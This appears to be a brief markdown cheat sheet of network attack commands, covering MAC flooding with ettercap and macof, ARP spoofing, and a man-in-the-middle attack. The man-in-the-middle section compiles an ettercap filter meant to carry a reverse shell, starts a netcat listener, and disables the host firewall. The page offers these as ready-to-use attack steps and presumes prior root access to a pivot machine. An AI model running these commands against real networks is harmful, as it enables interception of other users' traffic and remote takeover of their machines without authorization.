 ### Tools: Ettercap, macof, ip, nmap, ping

## Requirements: Root the machine that has access to more machines on its network, then scan with a port scanner (nmap)

# MAC FLODDING

#### ettercap -T -i INTERFACE -P rand_flood -q -w /tmp/tcpdump3.pcap

#### macof -i INTERFACE

# ARP SPOOFING

#### ettercap -T -i INTERFACE_2 -M arp

# MAN IN THE MIDDLE MANIPULATION

#### 1) Create a filter (preferably a reverse shell)

#### 2) Compile it with etterfilter

#### etterfilter example.ecf -o example.ef

#### 3) nc -lvnp PORT &

#### 4) ufw disable

#### 5) ettercap -T -i INTERFACE_2 -M arp -F example.ef
